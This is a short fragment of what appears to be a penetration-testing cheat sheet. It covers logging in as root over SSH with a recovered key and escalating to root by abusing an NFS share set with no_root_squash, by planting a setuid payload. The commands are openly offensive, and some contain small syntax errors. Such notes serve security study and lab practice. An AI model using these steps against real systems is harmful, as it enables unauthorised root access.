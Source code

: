 On the new machine:
```sh
chmod 600 root_key
ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa oHostKeyAlgorithms=+ssh-rsa root@10.10.10.10
```

## NFS
If root squashing is disabled we can elevate our permissions because NFS files retain the remote user id.
```sh
cat /etc/exports

#-- example root squash setting --
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
```

Mount an NFS share and save the payload to it. When the payload is accessed, you are elevated to root.
```sh
mkdir /tmp/nfs
mount -o rw, vers=3 10.10.10.10:/tmp /tmp/nfs

chmod +xs /tmp/nfs/shell.elf
```


